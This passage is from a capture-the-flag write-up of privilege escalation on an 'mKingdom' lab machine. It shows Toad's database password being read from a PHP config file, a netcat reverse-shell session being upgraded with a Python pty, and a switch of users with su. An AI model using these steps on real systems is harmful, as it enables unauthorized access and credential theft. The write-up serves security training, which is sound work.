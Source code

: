 ## Privilege Escalation

### Discovering Toad's Password

While exploring the web files, you will find Toad's password in the `database.php` file. 

```bash
$ cat /var/www/html/app/castle/application/config/database.php
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => '[REDACTED]',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
];
```

Use this password to get a proper shell with Python and switch to the Toad user using `su`.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@mkingdom:/var/www/html/app/castle/application$ ^Z       
[1]  + 30481 suspended  nc -nvlp 4444
~  $ stty raw -echo; fg                                                                                                                                                                                                                 148 ↵
[1]  + 30481 continued  nc -nvlp 4444

www-data@mkingdom:/var/www/html/app/castle/application$ su toad
Password: 
toad@mkingdom:/var/www/html/app/castle/application$
```

### Transition to Mario User

Toad's home directory doesn't contain anything interesting, and Toad can't run any sudo commands either. However, by checking various directories and configurations, you will find Mario's password stored in an environment variable, encoded in base64.

```bash
toad@mkingdom:~$ ls
Desktop    Downloads  Pictures  smb.txt    Videos
Documents  Music      Public    Templates
toad@mkingdom:~$ cat smb.txt 

Save them all Mario!

                                      \| /
                    ....'''.           |/
             .''''''        '.       \ |
             '.     ..     ..''''.    \| /
              '...''  '..''     .'     |/
     .sSSs.             '..   ..'    \ |
    .P'  `Y.               '''        \| /
    SS    SS                           |/
    SS    SS                           |
    SS  .sSSs.                       .===.
```